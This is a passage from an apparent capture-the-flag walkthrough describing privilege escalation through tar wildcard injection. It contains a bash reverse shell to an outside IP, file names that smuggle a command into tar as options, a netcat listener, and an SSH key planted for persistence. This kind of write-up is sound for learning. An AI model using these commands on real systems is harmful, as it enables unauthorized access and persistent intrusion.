 The wildcard is the key. [HackTricks](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/wildcards-spare-tricks.html?highlight=tar#gnu-tar-linux-bsd-busybox-full) once again comes in clutch. If you create files in the directory that `tar` tries to compress that happen to have names that are identical to `tar`'s command line options, it will treat them as such and execute them. This means we can use the trick from GTFOBins to get a reverse shell. Notably, whle HackTricks tells you to use `touch` to create files, I couldn't get that to work and had to `echo` an empty string into the files to create them.

```bash
cd /tmp && mkdir rs && cd rs
echo "bash -c 'bash -i >& /dev/tcp/10.13.45.211/9001 0>&1'" > shell.sh
chmod +x shell.sh
echo "" > "--checkpoint=1"
echo "" > "--checkpoint-action=exec=sh shell.sh"
```

Our `shell.sh` is a pretty standard Bash reverse shell. We'll set up a netcat listener on our local machine to catch the shell.

```bash
nc -lvnp 9001
```

With all our setup complete, all we have to do is run the script and... get an error.

![Error from tar: "/opt/backups/backup.tar: Cannot open: Permission denied"](https://jacen-safe.s3.us-west-004.backblazeb2.com/T0nZTfgX8QKA.png)

I don't entirely understand why we're getting a permission denied, but we can just move the existing `backup.tar` elsewhere (temporarily; we don't want to destroy data if we can help it) while we run the script.

```bash
mv /opt/backups/backup.tar /opt/backups/backup.tar.bak
```

*Now* we can run the script with no issues, and we catch a reverse shell. Unfortunately, reverse shells are a bit annoying to deal with, so we'll drop an SSH key for a better experience and extra persistence. This does leave a unique artifact behind, and ideally we wouldn't want to leave too many traces, but it's not as big of a deal in a CTF environment.

```bash
mkdir /home/michael/.ssh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPuFnX5Evd58Bnh7GyspSnQXLCIy127tV3tsJ/B+hoxl james@kali-7450" >> /home/michael/.ssh/authorized_keys
```

Back on our attacker machine, we'll make sure our SSH key has the correct permissions so SSH doesn't yell at us and connect with it.

```bash
ssh -i michael michael@10.201.94.174
```

## Finding Your Root

Say it with me: "It's time for another round of enumeration".

Unfortunately, `sudo -l` requires a password, and we don't have `michael`'s password, so we won't get away so easily this time.
